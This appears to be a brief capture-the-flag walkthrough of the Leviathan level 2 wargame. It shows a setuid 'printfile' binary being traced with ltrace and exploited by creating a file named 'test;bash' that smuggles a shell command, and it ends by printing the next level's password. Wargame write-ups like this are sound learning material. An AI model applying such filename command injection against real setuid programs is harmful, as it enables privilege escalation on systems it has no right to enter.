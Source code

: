 There's a file named printfile

```
file printfile
setuid ELF 32-bit LSB executable
```

```
./printfile /etc/passwd
```

```
ls -la
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It's setuid is leviathan3 but i can't read the password of the next level

```
ltrace ./printfile /etc/leviathan_pass/leviathan3
```

```
mktemp -d
cd /tmp/tmp.QNwyizPIf9
```

```
touch 'test;bash'
/home/leviathan2/printfile 'test;bash'
```

Ahdiemoo1j
